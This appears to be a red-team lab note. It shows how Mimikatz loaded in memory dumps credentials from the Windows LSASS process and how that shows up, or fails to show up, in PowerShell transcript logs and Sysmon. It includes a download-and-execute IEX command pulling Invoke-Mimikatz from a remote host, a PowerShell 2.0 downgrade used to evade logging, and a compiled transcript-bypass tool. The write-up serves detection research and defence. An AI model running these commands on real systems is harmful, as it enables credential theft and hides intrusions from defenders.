 ```yaml
---
description: >-
  Local Security Authority (LSA) credential dumping with in-memory Mimikatz
  using powershell.
---
```


# Dumping Credentials from Lsass Process Memory with Mimikatz

## Execution

{% code title="attacker@victim" %}
```csharp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode %}

Hashes and plain text passwords of the compromised system are dumped to the console:

![](../../.gitbook/assets/pwdump-mimikatz-results.png)

## Observations

The process commandline is blatantly showing what is happening in this case, however, you should assume that file names and script argument names will be changed/obfuscated by a sophisticated attacker:

![victim host inspection](../../.gitbook/assets/pwdump-mimikatz.png)

As a defender, if your logs show a script being downloaded and executed in memory in a "relatively" short timespan, this should raise your suspicion and the host should be investigated further to make sure it is not compromised:

![](../../.gitbook/assets/pwdump-mimikatz-sysmon.png)

### Transcript Logging \#1

PowerShell transcript logging should allow you to see the commands entered into the console and their outputs, however I got some unexpected results at first.

For the first test, I setup transcript logging in my powershell \(version 2.0\) profile:

{% code title="C:\\Users\\mantvydas\\Documents\\WindowsPowerShell\\Microsoft.PowerShell\_profile.ps1" %}
```bash
Start-Transcript -Path C:\transcript.txt
```
{% endcode %}

{% hint style="warning" %}
Note that enabling transcription logging is not recommended from powershell profiles, since `powershell -nop` will easily bypass this defence - best if logging is enabled via GPOs.
{% endhint %}

### Cannot Start Transcript

First thing I noticed was that if at least one powershell instance was already running on the victim system, the transcript could not be started \(assume because the file is in use already\), which makes sense, but is not helpful for the victim at all:

![](../../.gitbook/assets/pwdump-transcript-cant-start.png)

This could be fixed by amending the PS profile so that the the transcript gets saved to a file the OS chooses itself rather than hardcoding it or in other words, doing `Start-Transcript` without specifying the path will do just fine.

### Empty Transcript - Weird

Below shows three windows stacked - top to bottom: 

1. Attacker's console via a netcat reverse shell using cmd.exe, issuing a command to dump credentials with mimikatz powershell script. Note how it says that the transcript was started and the mimikatz output follows;
2. **Empty \(!\)** transcript logging file transcript.txt on the victim system;
3. Process explorer on the victim system showing the process ancestry of the reverse shell cmd.exe PID `616` which had spawned the powershell process \(mentioned in point 1\) that ran the mimikatz script;

![](../../.gitbook/assets/pwdump-transcript-empty.png)

As can be seen from the above screenshot, the transcript.txt is empty although mimikatz ran successfully and dumped the credentials.   
  
This brings up a question if I am doing something wrong or if this is a limitation of some sort in transcript logging, so I will be trying to:

* dump credentials from a different process ancestry
* dump credentials locally on the victim system \(as if I was doing it via RDP\)
* upgrade powershell to 5.0+

### Dumping Credentials Locally

This works as expected and the transcript.txt gets populated with mimikatz output:

![](../../.gitbook/assets/pwdump-mimikatz-transcript.png)

### Dumping Credentials From a Different Process Ancestry

Tried dumping creds from the ancestry:   
`powershell > nc > cmd > powershell` instead of `cmd > nc > cmd > powershell` - to no avail.

### Transcript Logging \#2

I have updated my Powershell version from 2.0 to 5.1 and repeated credential dumping remotely `(cmd > nc > cmd > powershell)` process ancestry, same like the first time, where the transcript.txt came back empty. This time, however, the results are different - the output is logged this time:

![Powershell 5.1 transcribing powershell console remotely with no issues](../../.gitbook/assets/pwdump-transcript-working.png)

### Back to PowerShell 2.0

Even though the victim system now has Powershell 5.0 that is capable of transcript logging, we can abuse the `-version 2` switch of the powershell.exe binary like so: 

```bash
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

 ... and the transcript will again become useless:

![](../../.gitbook/assets/pwdump-ps2-no-transcript.png)

This abuse, however, allows defenders to look for logs showing commandline arguments that suggest powershell is being downgraded and flag them as suspicious activity:

![](../../.gitbook/assets/pwdump-powershell-downgrade.png)

### Bypassing w/o Downgrading

Another technique allowing to bypass the transcript logging without downgrading is possible by using a compiled c\# program by [Ben Turner](https://gist.githubusercontent.com/benpturner/d62eb027a518b3743520a34d3aecb915/raw/32d96dafe148c784706b0dc7ed1d0fbbab51c354/posh.cs):

{% file src="../../.gitbook/assets/posh.cs" caption="Transcript Bypass without Downgrade - C\#" %}

Compile the code .cs code:

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:C:\experimemts\transcript-bypass\bypass.exe C:\experiments\transcript-bypass.cs /reference:System.Management.Automation.dll
```

If you are having problems locating the `System.Management.Automation.dll` - you can find its location by using powershell: `PS C:\Users\mantvydas> [psobject].assembly.location`

We can then launch the transcript-bypass and use powershell and not worry about the transcript, because although the file will be created, it will be showing this:

![](../../.gitbook/assets/pwdump-bypass-no-downgrade.png)

I wanted to check if I could find any traces of non-powershell.exe processes creating transcript files in the logs, so I updated the sysmon config:

{% code title="sysmonconfig.xml" %}
```markup
<FileCreate onmatch="include">
    <TargetFilename condition="end with">.txt</TargetFilename>
</FileCreate>
```
{% endcode %}

...and while I could see powershell.exe creating transcript files:

![](../../.gitbook/assets/powershell-transcript-logs.png)

I could not get sysmon to log the transcript.txt file creation event caused by the `bypass.exe` although the file got successfully created!

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1003" %}

{% embed url="https://www.fireeye.com/blog/threat-research/2016/02/greater\_visibilityt.html" %}

